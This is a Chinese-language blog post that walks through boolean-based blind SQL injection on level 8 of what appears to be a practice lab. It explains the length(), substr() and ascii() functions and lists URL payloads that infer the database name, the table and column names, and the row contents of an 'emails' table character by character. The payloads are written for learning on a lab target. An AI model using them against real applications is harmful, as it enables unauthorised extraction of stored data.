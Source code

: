 ```yaml
---
layout: post
title: SQL盲注(less8)
date: 2021-06-07 21:43 +0900
category: penetration-exp
---
```

## 0x0 SQL注入基本姿势
**盲注**：就是在 sql 注入过程中, sql 语句执行之后, 数据不能回显到前端页面，需要利用一些方法进行判断或者尝试。  
**length()**：用来判断字符传的长度，返回true或者false  
`length(database())>7 //database()的长度是否大于7`  
**substr()**:截取字符串  
`ascii(substr(database(),1,1))>100 //将database()的第一个字符的ASCII码与100比较返回true或者false`  
**limit(a,b)**:后缀两个参数的时候（/*参数必须是一个整数常量*/），其中a是指记录开始的偏移量,b是指从第a+1条开始，取b条记录。
`limit(0,1) //从第0条开始，取出一条记录，也就是取出第0条记录`

## 0x1 less-8

**测试注入点**
`?id=1' and 1=1 --+`  
![](/images/20210606-1.png)
`?id=1' and 1=2 --+`  
![](/images/20210606-2.png)
**可以看到，并没有返回报错的信息，但是当产生逻辑错误的时候就无法进入正确的网页**  
`?id=0' or length(database())>7--+    //true`  
`?id=0' or length(database())>8--+    //false`  
`?id=0' or length(database())=8--+    //true`  
**使用or 来判断逻辑上是否正确->才接database()的长度，0 or 1 = 1，所以只有当右边的语句正确时，才会产生正确的回显**  
![](/images/20210606-3.png)
![](/images/20210606-4.png)
**同理，猜出数据库第一位字符**  
`?id=0' or ascii(substr(database(),1,1))>100--+  //true`  
`?id=0' or ascii(substr(database(),1,1))>120--+  //false`  
`?id=0' or ascii(substr(database(),1,1))=115--+  //true`  
![](/images/20210606-5.png)
**猜出数据库中表的数量**  
`?id=0' or 4=(select count(table_name) from information_schema.tables where table_schema=database());--+`  
![](/images/20210606-6.png)
**猜出第一个表中的第一个字符**  
`?id=0' or ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101--+`  
![](/images/20210606-7.png)
**猜出字段长度**  
`?id=0' or (select count(column_name) from information_schema.columns where table_schema=database() and table_name='emails')=2--+`  
![](/images/20210606-8.png)
**猜出字段名称的第一个字符**  
`?id=0' or ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),1,1))>104--+`  
**猜测表中字段具体内容的条数**  
`?id=0' or 8=(select count(id) from security.emails)--+`  
**查email_id字段的第一条具体内容**  
`?id=0' or ascii(substr((select email_id from security.emails limit 0,1),1,1))=68--+`

